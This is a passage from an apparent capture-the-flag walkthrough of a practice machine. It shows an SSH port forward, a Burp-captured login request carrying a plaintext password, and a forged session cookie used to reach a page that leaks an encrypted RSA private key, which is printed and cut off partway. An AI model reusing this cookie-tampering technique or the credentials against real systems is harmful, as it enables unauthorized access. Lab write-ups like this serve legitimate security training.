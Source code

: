 netstat -ano
exit

```bash
ssh -L 9000:localhost:52846 jimmy@10.10.10.171
```
We can now setup Burp to capture our requests on port 8080 (which our firefox is configured to send all requests through), and pass the output of Burp to port 9000. 

Firing up burp we can issue a fake login with user:jimmy, password:anythingToTest 

We see the following request come through to Burp, confirming that a session cookie is set that we can manipulate client-side.  

> **Captured Request**  
POST /index.php HTTP/1.1  
Host: 127.0.0.1:8080  
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:71.0) Gecko/20100101 Firefox/71.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: en-US,en;q=0.5  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 46  
Origin: http://127.0.0.1:8080  
Connection: close  
Referer: http://127.0.0.1:8080/  
Cookie: PHPSESSID=u27j0fuduqcnmmi3nh52m0esko  
Upgrade-Insecure-Requests: 1  
username=jimmy&password=n1nj4W4rri0R%21&login=  

> **Editing the request to change the endpoint and provide our tampered session cookie:**  

GET /main.php HTTP/1.1  
Host: 127.0.0.1:8080  
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:71.0) Gecko/20100101 Firefox/71.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: en-US,en;q=0.5  
Accept-Encoding: gzip, deflate  
Connection: close  
Cookie: PHPSESSID=jimmy  
Upgrade-Insecure-Requests: 1  

> **This leaks the following private key (encrypted):**  

<sub><sup>  
-----BEGIN RSA PRIVATE KEY-----  
Proc-Type: 4,ENCRYPTED  
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D  

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2